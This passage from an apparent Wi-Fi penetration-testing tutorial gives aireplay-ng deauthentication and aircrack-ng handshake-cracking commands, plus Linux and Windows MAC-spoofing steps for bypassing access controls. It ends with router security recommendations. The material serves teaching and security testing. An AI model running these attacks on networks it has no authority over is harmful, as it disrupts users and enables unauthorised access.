 **Sending Deauthentication frames \[terminal 3]** In this step, we want to disconnect one of the already connected devices from target network and force it to re-connect to be able to capture the 4-way WPA handshake

```
aireplay-ng --deauth [number-of-frames] -a [bssid] wlan0mon
```

The number of deauh frames can range from 50 till 300. **Capturing the handshake** Now its time to monitor \[terminal 1] and \[terminal 2] for the phrase \[WPA Handshake]. Once you find it proceed to the following step **Cracking The wireless key** In this step, we select a powerfull wordlist and we choose the output file created in step 3 \[terminal 2]

```
aircrack-ng output.cap -w [path-to-wordlist]
```

### MAC Spoofing

You can use MAC address spoofing to bypass network access controls, captive portals, and security filters that rely on a system’s MAC to identify it. You can also use it as part of on-path and other attacks that rely on systems thinking they’re sending traffic to a legitimate host. **Linux**

```
ip link set dev <interface> down
ip link set dev <interface> address XX:XX:XX:XX:XX:XX
ip link set dev <interface> up
```

**Windows** #Method-1-Registry First we find the network ID card under the below registry key

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\C
ontrol\Class\{4D36E972-E325-11CE-BFC1-
08002BE10318}
```

Look in DriverDesc field to ensure you have correct network card. Then we modify the below registry location and replace `XXXX` with the desired MAC address

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Co
ntrol\Class\{4D36E972-E325-11CE-BFC1-
08002BE10318}\_YYYY /v NetworkAddress /d
<XXXXXXXXXXXX> /f
```

Replace XX with desired mac address, replace YYYY with network card ID. #Method-1-Powershell

```
Set-NetAdapter -Name "Ethernet 1" -MacAddress "XX-XXXX-XX-XX-XX"
```

Replace XX with desired mac address.

### Security Recommendations

**Remember to change the default username and password**: The first and foremost step to secure your Wi-Fi network is to change the default username and password of your router. Default login credentials are easily available online, and cybercriminals can use them to gain access to your network. **Always use strong encryption**: It’s essential to enable WPA2 (Wi-Fi Protected Access II) encryption on your router to secure your wireless network. WPA2 is one of the most widely supported encryption methods currently available and provides a high level of security for your network. **Set up a guest network**: If you frequently have visitors who need to use your Wi-Fi, set up a guest network with a different password to keep your main network secure. **Enable the MAC address filtering**: MAC address filtering allows you to restrict access to your network by only allowing specific devices with pre-approved MAC addresses to connect. **Keep your router firmware up to date**: Router manufacturers regularly release firmware updates to address security vulnerabilities. Make sure you keep your router's firmware up to date by checking for updates regularly. **Disable remote management**: Unless you need it, disable remote management on your router. It’s a security risk as it allows cybercriminals to access your router's settings from outside your network.
